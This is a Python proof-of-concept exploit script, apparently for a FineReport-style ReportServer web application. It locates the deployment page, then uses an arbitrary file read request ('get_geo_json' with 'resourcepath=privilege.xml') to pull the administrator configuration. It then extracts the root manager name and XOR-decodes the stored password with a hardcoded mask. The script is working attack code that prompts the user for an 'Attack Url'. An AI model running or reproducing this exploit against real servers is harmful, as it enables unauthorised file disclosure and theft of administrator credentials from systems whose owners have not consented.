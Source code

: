 ```
    print('+------------------------------------------')

def decode_passwd(cipher):
    PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]  # 掩码
    Password = ""
    cipher = cipher[3:]  # 截断三位后
    for i in range(int(len(cipher) / 4)):
        c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
        c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
        Password = Password + chr(c2)
    return Password

def POC_1(target_url):
    vuln_url_1 = target_url + '/WebReport/ReportServer'
    vuln_url_2 = target_url + '/ReportServer'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_1 = requests.get(url=vuln_url_1, timeout=5, verify=False, headers=headers)
        response_2 = requests.get(url=vuln_url_2, timeout=5, verify=False, headers=headers)
        if "部署页面" in response_1.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_1))
            POC_2(vuln_url_1)
        elif "部署页面" in response_2.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_2))
            POC_2(vuln_url_2)
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 {} \033[0m".format(e))
        sys.exit(0)

def POC_2(vuln_url_fileread):
    vuln_url = vuln_url_fileread + "?op=chart&cmd=get_geo_json&resourcepath=privilege.xml"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        print("\033[32m[o] 正在访问: {} \033[0m".format(vuln_url))
        if "rootManagerPassword" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标存在漏洞,读取敏感文件 \n{} \033[0m".format(response.text))
            user_name = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerName>', response.text)
            cipher = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerPassword>', response.text)
            password = decode_passwd(cipher[0])
            print("\033[34m[o] 后台账户密码为:{} {} \033[0m".format(user_name[0], password))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```
